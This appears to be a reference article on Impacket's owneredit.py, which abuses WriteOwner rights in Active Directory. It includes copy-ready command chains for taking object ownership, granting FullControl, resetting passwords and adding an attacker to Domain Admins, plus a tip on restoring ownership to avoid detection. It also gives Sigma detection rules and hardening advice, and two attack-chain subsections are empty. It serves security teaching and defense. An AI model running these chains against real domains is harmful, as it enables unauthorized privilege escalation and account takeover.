


title: "owneredit.py"
script: "examples/owneredit.py"
category: "AD Modification"
status: "Published"
protocols:
  - LDAP
  - LDAPS
ms_specs:
  - MS-ADTS
  - MS-DTYP
mitre_techniques:
  - T1222
  - T1098
  - T1484
  - T1078
  - T1550.002
auth_types:
  - password
  - nt_hash
  - aes_key
  - kerberos_ccache
tags:
  - impacket
  - impacket/examples
  - category/ad_modification
  - status/published
  - protocol/ldap
  - protocol/ldaps
  - authentication/ntlm
  - authentication/kerberos
  - technique/owner_modification
  - technique/writeowner_abuse
  - technique/implicit_writedacl
  - technique/acl_abuse
  - mitre/T1222
  - mitre/T1098
  - mitre/T1484
  - mitre/T1078
  - mitre/T1550/002
aliases:
  - owneredit
  - impacket-owneredit
  - owner_edit


# owneredit.py

> **One line summary:** Modifies the Owner SID field in an Active Directory object's security descriptor, enabling an attacker with `WriteOwner` permission on a target to take ownership of that object, which grants the implicit `WriteDacl` right that Windows has always given to object owners regardless of the DACL contents, creating the upstream condition needed to run `dacledit.py` against the same target for the full exploitation chain.

| Field | Value |
|:---|:---|
| Script | `examples/owneredit.py` |
| Category | AD Modification |
| Status | Published |
| Primary protocols | LDAP, LDAPS |
| Primary Microsoft specifications | `[MS-ADTS]`, `[MS-DTYP]` |
| MITRE ATT&CK techniques | T1222 File and Directory Permissions Modification, T1098 Account Manipulation, T1484 Domain Policy Modification, T1078 Valid Accounts, T1550.002 Pass the Hash |
| Authentication types supported | Password, NT hash, AES key, Kerberos ccache |
| First appearance in Impacket | Impacket 0.12.0 (pull request #1323) |
| Original author | Charlie Bromberg (`@ShutdownRepo`) |


## Prerequisites

This article is the direct companion to [`dacledit.py`](dacledit.md) and assumes the foundations from that article:

- **Required reading first:** [`dacledit.py`](dacledit.md) for Windows security descriptor structure, DACL and ACE mechanics, access masks, extended rights, and the `ntSecurityDescriptor` LDAP attribute. This article focuses only on what is unique to the Owner field.
- [`00_Introduction_and_Architecture.md`](Introduction_and_Architecture.md) for the Impacket stack overview.
- [`rbcd.py`](rbcd.md) and [`addcomputer.py`](addcomputer.md) for related AD Modification patterns.


## What it does

`owneredit.py` reads and modifies the Owner SID field of an Active Directory object's security descriptor via LDAP. It supports two actions:

| Action | Purpose |
|:---|:---|
| `read` | Display the current owner of the target object. |
| `write` | Change the owner to a specified new principal. |

The tool is deliberately narrow in scope. It handles only the Owner field, not the DACL (that is [`dacledit.py`](dacledit.md)) and not the SACL (attackers rarely modify the SACL).

The operational purpose is specific: when an attacker has `WriteOwner` but not `WriteDacl` on a target object, `owneredit.py` converts the `WriteOwner` right into effective `WriteDacl` via the implicit ownership privilege. The attacker then uses [`dacledit.py`](dacledit.md) to grant themselves whatever specific rights they need.

The tool does not have `remove`, `backup`, or `restore` actions like [`dacledit.py`](dacledit.md) does. The reasoning: the Owner field is a single SID, so "remove" has no meaning (you cannot remove an ACE from a field that is not a list). Backup/restore is also simpler: the operator can read the current owner before modification and remember it, or use [`dacledit.py`](dacledit.md)'s backup which captures the entire security descriptor including the owner.


## Why it exists

The `WriteOwner` permission (access mask bit `0x00080000`, named `ADS_RIGHT_WRITE_OWNER` in Microsoft documentation) is one of the powerful rights in Active Directory's permission model. Windows has always given object owners implicit `WriteDacl` rights, going back to the original NT design. Combined, these two facts create the attack chain:

1. Attacker has `WriteOwner` on target object.
2. Attacker uses `owneredit.py` to set a controlled principal (typically the attacker's own account) as the new owner.
3. The controlled principal, being owner, has implicit `WriteDacl`.
4. Attacker uses [`dacledit.py`](dacledit.md) to add any ACE they want.
5. Attack proceeds as in the normal WriteDacl exploitation chain.

Before `owneredit.py` existed in Impacket, operators on Linux had limited options for this chain. The capability existed in BloodyAD and in PowerView's `Set-DomainObjectOwner`, but there was no Impacket tool. Charlie Bromberg (the same contributor behind `dacledit.py`) submitted pull request #1323 in 2023 to add the capability, and it was merged in Impacket 0.12.0 alongside `dacledit.py`.

The tool exists because WriteOwner is a more common permission than WriteDacl in real AD environments. The practical implication: many attack paths go through owneredit first, then dacledit. Without owneredit, those paths would require switching to non Impacket tooling mid attack. The tool closes the gap.


## The protocol theory

The security descriptor foundations are in [`dacledit.py`](dacledit.md). This section focuses on the Owner field specifically.

### The Owner field

The Owner field in a security descriptor is a single SID identifying who owns the object. It is part of the `SECURITY_DESCRIPTOR` structure and is serialized at a specific offset within the `ntSecurityDescriptor` attribute on an LDAP object.

Unlike the DACL which is a variable length list of ACEs, the Owner is a single fixed field. Modification is simpler: parse the security descriptor, replace the Owner SID with the new one, serialize it back, write via LDAP modify.

### Why the Owner has implicit WriteDacl

This is a fundamental Windows security principle going back to the original NT design. The reasoning:

- The DACL determines who can do what to an object.
- The DACL can be configured to lock every principal out, including the owner.
- If the owner could be locked out, the object could become completely unusable (no one could modify its permissions to fix the configuration).
- To prevent this scenario, the owner always has the ability to modify the DACL, even if no ACE explicitly grants this.

In Windows NT's access check algorithm (documented in `[MS-DTYP]` section 2.5.3.2), when the requesting principal is the object's owner, the access check automatically includes `WRITE_DAC` and `READ_CONTROL` rights regardless of DACL contents. This is true for every securable object in Windows, not just AD objects.

The attacker exploits this by taking ownership. Once they are the owner, they cannot be denied DACL modification no matter what the current DACL says.

### WriteOwner access mask bit

The `WriteOwner` right is mask bit `0x00080000` (sometimes written as `ADS_RIGHT_WRITE_OWNER` or `WRITE_OWNER`). It is granted via ACEs in the DACL, same as any other right.

Common legitimate grants of WriteOwner:

- System accounts (`SYSTEM`, `Administrators`) have it on most objects.
- `adminSDHolder` template grants it to specific administrative groups on protected objects.
- Delegation patterns sometimes grant WriteOwner to specific service accounts.

Common illegitimate grants (attack enabling):

- Group Policy Objects owned by regular user accounts (common misconfiguration).
- Computer accounts owned by former owners' personal accounts (forgotten cleanup).
- OU level WriteOwner grants to broad groups (overly permissive delegation).

BloodHound's WriteOwner edge identifies these.

### adminSDHolder and the Owner field

[`dacledit.py`](dacledit.md) documents the adminSDHolder/SDProp mechanism that protects privileged objects by periodically restoring their DACL. The same mechanism also restores the Owner of protected objects. Taking ownership of a Domain Admins group member or similar protected account results in the ownership being reverted within an hour.

The operational implication: attacks against protected accounts via owneredit.py have the same hour long window as DACL attacks. Attackers must complete the full exploitation chain (dacledit.py grant, then DCSync or whatever the downstream action is) within that window.

### The ntSecurityDescriptor write operation

When `owneredit.py` performs a write action, the LDAP modify operation is identical in form to what `dacledit.py` does: a REPLACE on the `ntSecurityDescriptor` attribute with the new serialized security descriptor bytes. The only content difference is which portion of the descriptor changes. The DC processes the modify operation through the same access check path.

The permissions required from the attacker:

- `WriteOwner` on the target object. This is what the tool is designed to abuse.
- Alternative: being in a group that holds `WriteOwner` via inheritance or explicit grant.
- Alternative: having `WriteDacl` already (which covers all modifications including owner changes, though if you already have WriteDacl, there is no reason to use owneredit rather than dacledit directly).


## How the tool works internally

The script is small. The high level flow:

1. **Argument parsing.** Identity string, `-target` specifiers, `-new-owner` specifiers, `-action` (read or write), connection flags (`-use-ldaps`, `-dc-ip`, `-dc-host`), and authentication flags.

2. **LDAP session establishment.** Same pattern as [`dacledit.py`](dacledit.md). Connects to the DC, authenticates.

3. **Target resolution.** Resolves the target to its DN via LDAP search on sAMAccountName, SID, or DN.

4. **New owner resolution (for write action).** Resolves the new owner to a SID.

5. **Current security descriptor read.** LDAP search on the target DN requesting `ntSecurityDescriptor`.

6. **Action dispatch:**
    - **`read`:** Parse the security descriptor, extract the Owner SID, resolve it to a principal name via LDAP, print.
    - **`write`:** Parse the security descriptor, replace the Owner SID with the new owner's SID, serialize back, write via LDAP modify.

7. **Error handling.** The most common error is `insufficient access rights`, which indicates the attacker does not have WriteOwner on the target. Other errors mirror those from `dacledit.py`.

The implementation is notably simpler than `dacledit.py` because there is no ACE construction or parsing to manage. The Owner is just a SID.


## Authentication options

Same as [`dacledit.py`](dacledit.md). Standard four mode pattern plus the LDAPS option.

### Cleartext password

```bash
owneredit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 \
  -action read -target 'targetobject'
```

### NT hash

```bash
owneredit.py CORP.LOCAL/user -hashes :<nthash> -dc-ip 10.0.0.10 \
  -action read -target 'targetobject'
```

### AES key

```bash
owneredit.py CORP.LOCAL/user -aesKey <hex> -dc-ip 10.0.0.10 -k \
  -action read -target 'targetobject'
```

### Kerberos ccache

```bash
export KRB5CCNAME=user.ccache
owneredit.py CORP.LOCAL/user -k -no-pass -dc-ip 10.0.0.10 \
  -action read -target 'targetobject'
```

### LDAPS

```bash
owneredit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -new-owner attacker -target 'targetobject'
```

LDAPS is recommended for write operations. Most modern AD deployments enforce LDAP signing which makes LDAPS effectively required for modifies. See the corresponding discussion in [`dacledit.py`](dacledit.md).

### Minimum required privileges

- For `read`: any authenticated user can read the Owner field of most AD objects (it is not considered sensitive by default).
- For `write`: `WriteOwner` on the target object. Or equivalents (being a Domain Admin, being in a group that has WriteOwner, etc.).


## Practical usage

### Read the current owner of an object

```bash
owneredit.py CORP.LOCAL/user:'P@ss' -dc-ip 10.0.0.10 \
  -action read -target 'target_user'
```

Output shows the current owner's principal name (or SID if resolution fails). Use this to confirm the starting state before modification.

### Take ownership of a user object

```bash
owneredit.py CORP.LOCAL/attacker_user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -new-owner attacker_user -target target_user
```

After this, `attacker_user` is the owner of `target_user`. The implicit WriteDacl right is now in effect.

### Take ownership of a computer object

```bash
owneredit.py CORP.LOCAL/attacker_user:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -new-owner attacker_user -target-dn 'CN=TARGETCOMP,CN=Computers,DC=corp,DC=local'
```

Computer objects require the fully qualified DN because `CN=TARGETCOMP$` with the sAMAccountName form may not resolve the way the tool expects. Use the DN for reliability.

### The canonical WriteOwner exploitation chain

Combining `owneredit.py` with [`dacledit.py`](dacledit.md):

```bash
# Step 1: Take ownership of the target
owneredit.py CORP.LOCAL/attacker:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -new-owner attacker -target target_user

# Step 2: Use dacledit.py to grant yourself the right you need
dacledit.py CORP.LOCAL/attacker:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -principal attacker -target target_user -rights FullControl

# Step 3: Exploit. With FullControl you have ResetPassword, so:
net rpc password "target_user" "NewPass123!" \
  -U 'CORP.LOCAL/attacker%P@ss' -S 10.0.0.10

# Step 4: Restore ownership to avoid detection
owneredit.py CORP.LOCAL/admin:'AdminPass' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -new-owner original_owner -target target_user
```

Step 4 requires having domain admin credentials (obtained via the exploitation), so the cleanup often happens after the escalation has succeeded rather than immediately.

### Take ownership of Domain Admins group (high impact)

```bash
owneredit.py CORP.LOCAL/attacker:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -new-owner attacker \
  -target-dn 'CN=Domain Admins,CN=Users,DC=corp,DC=local'

# Follow up with dacledit to grant WriteMembers:
dacledit.py CORP.LOCAL/attacker:'P@ss' -dc-ip 10.0.0.10 -use-ldaps \
  -action write -principal attacker \
  -target 'Domain Admins' -rights WriteMembers

# Add self to group:
net rpc group addmem "Domain Admins" "attacker" \
  -U 'CORP.LOCAL/attacker%P@ss' -S 10.0.0.10
```

If this succeeds, the attacker is Domain Admin. adminSDHolder will revert both the ownership and the DACL change within 60 minutes, but the group membership persists (SDProp does not modify group membership, only DACL and owner).

### Key flags

| Flag | Meaning |
|:---|:---|
| `identity` (positional) | Domain/username[:password]. |
| `-new-owner <n>` | New owner sAMAccountName. |
| `-new-owner-sid <SID>` | New owner SID. |
| `-new-owner-dn <DN>` | New owner DN. |
| `-target <n>` | Target object sAMAccountName. |
| `-target-sid <SID>` | Target SID. |
| `-target-dn <DN>` | Target DN. |
| `-action <op>` | `read` (default) or `write`. |
| `-use-ldaps` | Use LDAPS instead of LDAP. |
| `-dc-ip <ip>` | DC IP address. |
| `-dc-host <n>` | DC hostname. |
| `-hashes`, `-aesKey`, `-k`, `-no-pass` | Standard authentication flags. |


## What it looks like on the wire

Identical in form to [`dacledit.py`](dacledit.md). The only difference is the content of the LDAP modify operation: the Owner SID changes rather than the DACL.

### Session setup and target resolution

Same as `dacledit.py`: LDAP bind, search for target DN, search for new owner SID.

### Security descriptor read

- LDAP search on target DN requesting `nTSecurityDescriptor`.
- Response contains the full security descriptor as a byte array.

### Security descriptor write (for write action)

- LDAP modify operation on target DN.
- Operation type: REPLACE on attribute `nTSecurityDescriptor`.
- New value: the security descriptor with the updated Owner SID.

### Wireshark filters

```text
ldap.modifyRequest                            # modify operations
ldap.attributeType == "ntSecurityDescriptor"  # targeting the right attribute
tcp.port == 389                               # LDAP
tcp.port == 636                               # LDAPS
```

For LDAPS the traffic is TLS encrypted. Network level detection is limited to connection patterns.


## What it looks like in logs

Log signatures overlap significantly with [`dacledit.py`](dacledit.md). The distinguishing factor is the specific change within the security descriptor.

### Event ID 4670: Permissions on an object were changed

Fires on Owner field modifications, same as for DACL modifications. Includes `OldSd` and `NewSd` fields that capture the security descriptor before and after in SDDL form. For an owneredit operation, the `O:` (owner) portion of the SDDL differs between old and new; everything else is identical.

This event is **diagnostic for ownership changes when the old and new SDDL are compared.** An SDDL difference that only affects the `O:` portion and nothing else points strongly at `owneredit.py` (or an equivalent tool).

Requires "Audit Directory Service Changes" in Advanced Audit Policy.

### Event ID 5136: A directory service object was modified

Generic modification event. Fires for any LDAP modify including ownership changes. The `AttributeLDAPDisplayName` will be `nTSecurityDescriptor` (same as for DACL changes), so this alone does not distinguish owner changes from DACL changes without inspecting the value.

### Event ID 4662: An operation was performed on an object

Fires with access mask showing `WRITE_OWNER` bit `0x80000` for the actual operation being performed. Legitimate WriteOwner operations are rare (system accounts doing SDProp, occasionally a domain admin); non system accounts triggering 4662 with WRITE_OWNER is strongly anomalous.

### Follow on events

Because `owneredit.py` is typically a midchain tool, the follow on detection is more important than the direct signal:

- **4670 on the same object within minutes** showing a DACL change: catches the owneredit → dacledit chain.
- **4724** (password reset) shortly after: catches the ownership → DACL → password reset chain.
- **4728/4732/4756** (group membership change): catches the chain against a group object.

Correlation rules that tie 4670 ownership changes to subsequent 4670 DACL changes within a short window are particularly valuable.

### Starter Sigma rules

```yaml
title: AD Object Owner Changed
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4670
    # Additional filter for owner changes requires SDDL parsing
  condition: selection
level: medium
```

Generic rule on 4670. Needs SDDL parsing logic downstream to specifically identify ownership changes (most SIEMs can do this with regex or SDDL parsers).

```yaml
title: Rapid Owner then DACL Change Sequence
logsource:
  product: windows
  service: security
detection:
  owner_change:
    EventID: 4670
  dacl_change:
    EventID: 4670
  timeframe: 5m
  condition: owner_change and dacl_change
level: high
```

Correlation rule. An object whose Owner and DACL both change within 5 minutes is almost certainly under attack via the owneredit + dacledit chain.

```yaml
title: Non-System Principal Performing Write Owner
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4662
    AccessMask|contains: '0x80000'
  filter_system:
    SubjectUserSid: 'S-1-5-18'
  filter_admins:
    SubjectUserName|endswith: '$'  # computer accounts
  condition: selection and not filter_system and not filter_admins
level: high
```

High fidelity. Flags any non-system account performing a WriteOwner operation.


## Detection and defense

### Detection opportunities

Owner changes are rarer than DACL changes in legitimate AD administration. Most administrators never explicitly change object ownership. Ownership changes are therefore a relatively low noise signal when monitoring is enabled.

**4670 with SDDL delta parsing.** The gold standard. Parse the `OldSd` and `NewSd` fields; alert when the `O:` portion differs. Most SIEMs need custom logic for this but the implementation is straightforward.

**4662 with WRITE_OWNER mask.** Direct signal. Legitimate non system accounts rarely perform this operation.

**Correlation with DACL changes.** As described above. The owneredit + dacledit sequence is diagnostic.

**Microsoft Defender for Identity.** MDI detects several ACL abuse patterns including ownership changes on privileged objects.

### Preventive controls

Mostly identical to [`dacledit.py`](dacledit.md). The specific additions:

- **Advanced Audit Policy: "Directory Service Changes" to Success and Failure.** Enables 4670.
- **Monitor WriteOwner permissions.** Run BloodHound regularly. WriteOwner is a named edge type in BloodHound. Identify unexpected WriteOwner grants and remove them.
- **adminSDHolder template correctness.** SDProp restores both Owner and DACL. Ensure the adminSDHolder template does not grant WriteOwner to unexpected principals.
- **Tier 0 ownership baseline.** Every Tier 0 asset's owner should be a known administrative principal (Domain Admins, specific service accounts). Baseline current state and alert on deviations.
- **Reduce WriteOwner permission grants.** Review delegation patterns. Many WriteOwner grants were delegation configurations that were never reviewed after initial setup.


## Related tools and attack chains

`owneredit.py` is the third article in the AD Modification category after [`addcomputer.py`](addcomputer.md) and [`rbcd.py`](rbcd.md), and companion to [`dacledit.py`](dacledit.md) covered in the previous article.

### The WriteOwner attack family

Three connected tools cover the security descriptor attack surface:

- [`owneredit.py`](owneredit.md) for the Owner field (this article).
- [`dacledit.py`](dacledit.md) for the DACL.
- [`rbcd.py`](rbcd.md) for the specific `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute (which is itself a security descriptor, contained in a different attribute from `ntSecurityDescriptor`).

Between them, the three tools handle every major AD security descriptor attack scenario on Linux.

### Attack chains enabled

**Basic WriteOwner → WriteDacl → Exploitation:**



**WriteOwner on GPO → Domain wide code execution:**



The GPO chain is particularly impactful because it provides code execution across many machines simultaneously without requiring lateral movement to each.

### Tools that feed `owneredit.py`

Same as `dacledit.py`. Any credential source produces a principal that can be checked for WriteOwner rights.

### Tools that `owneredit.py` feeds

Almost always [`dacledit.py`](dacledit.md). The two tools are designed to work together. Rarely does `owneredit.py` stand alone; the ownership change is a stepping stone to the DACL modification that actually does the damage.


## Further reading

- **`[MS-ADTS]`: Active Directory Technical Specification.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/`. Sections on security descriptors and the nTSecurityDescriptor attribute.
- **`[MS-DTYP]`: Windows Data Types.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/`. Section 2.5.3.2 covers the access check algorithm including the owner implicit rights handling.
- **Microsoft "Security Descriptors for New Objects".** Background on how security descriptors including the Owner field are created and inherited in Active Directory.
- **Charlie Bromberg (ShutdownRepo) WriteOwner documentation** at `https://www.thehacker.recipes/ad/movement/dacl/grant-ownership`. The author's own documentation of the attack primitive.
- **Hacking Articles "Abusing AD-DACL: WriteOwner"** at `https://www.hackingarticles.in/abusing-ad-dacl-writeowner/`. Practical walkthrough of the owneredit + dacledit chain.
- **Andy Robbins "ACE Your AD Hunt"** presentations and write ups at SpecterOps. Identifying ACL attack paths including WriteOwner.
- **PowerSploit PowerView `Set-DomainObjectOwner`** documentation. The Windows equivalent of owneredit.py.
- **BloodHound Enterprise "ACL Based Attacks Reference"** at `https://bloodhoundenterprise.io/`. Comprehensive attack path documentation.
- **MITRE ATT&CK T1222** at `https://attack.mitre.org/techniques/T1222/`. File and Directory Permissions Modification.
- **Impacket pull request #1323.** The original PR that added `owneredit.py`. Useful for understanding the design discussion and original intent.

If you want to internalize the mechanism, extend the lab exercise from [`dacledit.py`](dacledit.md): set up a scenario where a controlled user has `WriteOwner` but not `WriteDacl` on a target. Run the canonical chain: `owneredit.py -action write` to take ownership, `dacledit.py -action write` to grant yourself FullControl, then exploit. Observe the 4670 events on the DC and note that both the Owner change and the DACL change are visible in the `OldSd` and `NewSd` fields if "Audit Directory Service Changes" is enabled. The before and after comparison makes concrete how the two tools work together and what defenders should be looking for. Once you have seen it, the rationale behind the "rapid Owner then DACL change" correlation rule becomes obvious.
